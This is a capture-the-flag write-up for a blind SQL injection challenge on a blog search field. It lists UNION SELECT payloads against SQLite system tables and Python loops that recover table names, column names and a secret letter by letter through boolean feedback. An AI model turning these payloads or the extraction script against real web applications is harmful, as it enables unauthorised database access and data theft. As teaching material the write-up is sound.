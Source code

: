 #Challenge `Sometimes we are just temporarily blind` Writeup

- Vulnerability:
  - SQLi attack
- Where:
  - Search blog posts text field
- Impact:
  - allows users to find a hidden secret in the database

## Analyzing the server

This challenge consists in finding a hidden secret somewhere in the database but this time the only feedback we get from the server is the number of articles matching the search query.

## Exploit

Since it's unknown where the secret is, a good starting place is to find which tables exists.
By using the search feedback it's possible to create a query to find the name of the existing tables letter by letter.
Using a python script with the following query:
`asdfghjkl' UNION SELECT tbl_name, type, NULL FROM 'sqlite_master' WHERE type='table' AND substr(tbl_name,1,{i}) == '{text}'; --`, the fields `{i}` and `{text}` are used to iterate over the table name.
The `substr` function allows the query to be case sensitive contrary to the `LIKE` operator.  
First we start create an alphabet containing all the possible characters for a table name and then using the above fields we iterate over the alphabet to see which letters match the table name.  
The script starts by creating a list of first letters:
```python
for letter in alph:
  r = session.get(URL + payload(letter,1))
  n = get_ntables(r)
  if n != "0":
      print("Found " + n + " with: " + letter)
      names.append(letter)
```
and then using this list tries to find the full table name:
```python
while len(names) != 0:
  for name in names:
    for letter in alph:
        r = session.get(URL + payload(name + letter,len(name+letter)))
        n = get_ntables(r)
        if n != "0" and not (name[-1] == '_' and letter == '_'):
            names.append(name + letter)
            print("Found " + n + " with: " + name + letter)
        else:
            if name in names:
                names.remove(name)
```
Once the table name is found, repeat the process for the column name using the `pragma_table_info` table, 
`asdfghjkl' UNION SELECT name, NULL, NULL FROM pragma_table_info('super_s_sof_secrets') WHERE substr(name,1,{i}) == '{text}'; --`.  
Finally, using the table name and the column name find the secret using `asdfghjkl' UNION SELECT secret, NULL, NULL FROM 'super_s_sof_secrets' WHERE substr(secret,1,{i}) == '{text}'; --`.

This reveals the secret `SSof{I_am_only_partially_blind_since_I_can_get_your_data_using_boolean_injection}`.  

## Implementation

These code snippets and full implementation can be found [here](sometimes-we-are-just-temporarily-blind.py).
```
